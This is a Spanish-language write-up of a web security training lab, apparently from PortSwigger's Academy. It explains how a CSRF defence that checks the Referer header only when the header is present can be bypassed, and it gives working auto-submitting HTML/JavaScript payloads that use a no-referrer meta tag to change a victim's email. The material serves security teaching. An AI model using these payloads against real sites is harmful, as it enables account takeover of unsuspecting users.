




# 🔑 CSRF con validación Referer si el header existe

## 📄 Descripción del laboratorio

La funcionalidad de cambio de correo electrónico es vulnerable a **CSRF**. La aplicación intenta bloquear solicitudes cross-site validando la cabecera **Referer**, pero implementa un respaldo inseguro.

El objetivo es:

* Alojar una **página maliciosa** en el **Exploit Server**.
* Lanzar un **ataque CSRF** que cambie el correo de la víctima.
* Utilizar las credenciales proporcionadas.

Credenciales proporcionadas:

* **wiener : peter**


## 📚 Teoría

La aplicación implementa una defensa CSRF basada en la cabecera **Referer**, comprobando que la petición provenga del mismo dominio.

El problema es que esta validación es **condicional**:

* Si **Referer existe**, se valida.
* Si **Referer no existe**, **no se realiza ninguna validación**.

### 📌 Error lógico

El desarrollador asume que la ausencia de la cabecera Referer es rara o inofensiva. Sin embargo, un atacante puede forzar que el navegador **no envíe esta cabecera**.

Esto se puede lograr utilizando la siguiente metaetiqueta:

```javascript
<meta name="referrer" content="no-referrer">
```

### 📌 Impacto

Al no enviarse la cabecera **Referer**, el servidor omite la comprobación y la petición **POST cross-site** es aceptada como legítima.

Esto provoca un **bypass completo de la protección CSRF**.

Una conclusión importante es que las defensas basadas únicamente en cabeceras como **Referer** u **Origin** son frágiles si no se rechaza explícitamente la petición cuando dichas cabeceras faltan. La ausencia de una cabecera nunca debe interpretarse como permiso.


## 📝 Práctica

### 1️⃣ Análisis inicial

Se inicia sesión con **wiener:peter** y se accede a **My account**, donde se encuentra la funcionalidad de cambio de correo electrónico.




### 2️⃣ Interceptación de la petición legítima

Se intercepta la solicitud **POST** generada al cambiar el correo electrónico.

* **URL:** `/my-account/change-email`
* **Método:** `POST`
* **Parámetros:** `email=nuevo@correo.com`

<br>

**Observaciones**

* No existe **token CSRF**.
* La única protección visible es la cabecera **Referer** apuntando al mismo dominio.

Esto confirma una **alta probabilidad de vulnerabilidad CSRF**.


### 3️⃣ Prueba de CSRF básica (fallida)

Se crea un formulario CSRF sencillo en el **Exploit Server**:

```html
<form action="https://ID-LABORATORIO.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacked@hacked.es">
</form>
<script>
    document.forms[0].submit();
</script>
```

Se guarda el exploit (**Store**) y se entrega a la víctima (**Deliver exploit to victim**).

<br>

**Resultado**

La petición falla con el error **Invalid Referer**. El valor de la cabecera Referer apunta al dominio del **Exploit Server**.

Esto confirma que el servidor **sí valida la cabecera Referer cuando está presente**.


### 4️⃣ Bypass omitiendo Referer

A continuación se fuerza que el navegador **no envíe la cabecera Referer**.

Para ello se añade la metaetiqueta en el `<head>` del exploit:

```html
<head>
    <meta name="referrer" content="no-referrer">
</head>

<form action="https://ID-LABORATORIO.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hacked@hacked.es">
</form>
<script>
    document.forms[0].submit();
</script>
```

Se guarda nuevamente el exploit (**Store**) y se entrega a la víctima (**Deliver exploit to victim**).




### 5️⃣ Resultado final

El laboratorio se resuelve correctamente.

Cuando el administrador carga la página maliciosa:

* La metaetiqueta **no-referrer** impide enviar la cabecera **Referer**.
* El servidor detecta que no hay Referer y **omite la validación**.
* La petición **POST cross-site** es aceptada.
* El correo del administrador se cambia a **hacked@hacked.es** utilizando sus **cookies de sesión**.


